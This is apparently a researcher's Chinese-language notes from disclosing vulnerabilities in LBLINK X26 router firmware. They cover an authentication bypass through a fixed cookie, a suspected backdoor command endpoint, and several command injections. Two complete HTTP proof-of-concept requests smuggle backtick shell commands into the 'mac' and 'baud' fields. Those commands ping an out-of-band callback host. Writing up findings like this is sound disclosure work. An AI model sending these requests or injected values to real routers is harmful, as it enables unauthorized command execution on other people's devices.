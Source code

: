 # 0. 路由架构

web端的getinfo.js或是什么的html，找到`/goform/xxx`这种

然后在goahead二进制文件的`formDefineCGIjson`找对应函数，

找到类似这种：<img src="./LBLINK-X26-Vulns/images/image-20250115122712777.png" alt="image-20250115122712777" style="zoom: 67%;" />

然后再用这个在那个`libshare-0.0.26.so`里面找。



# 1. 通用的 越权

web端的cookie之类的都没有给SESSION ID等唯一标识符，cookie是这么写的：

```
Cookie: platform=0; user=admin
```

。。。

然后呢，只要后台界面有人处于登录状态，我们就可以直接在未登录状态访问对应api接口获取信息，或者执行操作。

比如：

```
/goform/get_router_info
```



我是在另一台电脑上登录的后台，然后这台电脑就能访问。。。

![image-20250113174308720](./LBLINK-X26-Vulns/images/image-20250113174308720.png)



绝了。。。



# 后续分析思路

后面的再想找就不简单了。这个网上找的固件bin貌似和路由器里面的不大一样。。。

只能盲测了吗。。。

好吧，貌似要 cpio-root这个。。。不是 squafhsroot。。。

逆天了。。。

所以，这玩意儿并不是基于 openwrt的。。。



---

关键二进制文件在 bin/goahead，写的还很友好~

```
formDefineCGIjson
```



![image-20250113202855820](./LBLINK-X26-Vulns/images/image-20250113202855820.png)

这个goahead类似一个网关，实际处理是在 lib/libshare-0.0.26.so里面。

所以重点就看这两个二进制文件。

---



# 2. /goform/set_cmd 命令执行 （隐藏后门？？？）

![image-20250113205116326](./LBLINK-X26-Vulns/images/image-20250113205116326.png)



审着审着就感觉不对劲了：

libshare-0.0.26.so的bs_SetCmd函数：

![image-20250113205206439](./LBLINK-X26-Vulns/images/image-20250113205206439.png)

楽。。。



# 3. /goform/set_blacklist 命令注入

）

```
POST /goform/set_blacklist HTTP/1.1
Host: 192.168.16.1
Content-Length: 58
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: http://192.168.16.1
Referer: http://192.168.16.1/admin/urlBlack.html
Accept-Encoding: gzip, deflate, br
Cookie: platform=0; user=admin
Connection: keep-alive

type=setmacblack&mac=123.123.123.123;`ping -c 1 poc.jnv9dw9n.eyes.sh`;#&enable=1
```

![image-20250113211525834](./LBLINK-X26-Vulns/images/image-20250113211525834.png)



还是那个so的`bs_SetMacBlack`：

![image-20250113211600168](./LBLINK-X26-Vulns/images/image-20250113211600168.png)



---

再找一个洞吧，然后就把文档写了，交了。

哦对，先把固件版本升到最新的1.2.5：

<img src="./LBLINK-X26-Vulns/images/image-20250113221909843.png" alt="image-20250113221909843" style="zoom:33%;" />

升了发现上面的洞还在。。。那可是太好了呐~



就这三个吧，目前。后面有后面的事情了。

---

# 4. /goform/set_serial_cfg 命令注入

```
POST /goform/set_serial_cfg HTTP/1.1
Host: 192.168.16.1
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.16.1/login.asp
Accept-Encoding: gzip, deflate, br
Cookie: Isfist=true; platform=0; user=admin
If-Modified-Since: Tue Sep 29 09:44:52 2020
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 122

type=setserialinfo&network=UDP&port=&domain=&ser_status=1&baud=`ping -c 1 fdzv0d7m.eyes.sh`&COM=&data=&verify=&stop=&flow=
```

~



so中的`bs_SetSerial`



# 5. /goform/set_LimitClient_cfg 命令注入

不是我找的呐，大二的找的。当然也记着，笑）

跟签名那个blacklist一样的，mac那儿。



# 6. /goform/set_pamode 命令注入 (待定)



# 7. /goform/set_manpwd 命令注入

routepwd参数

是先存进去，又取出来拼接
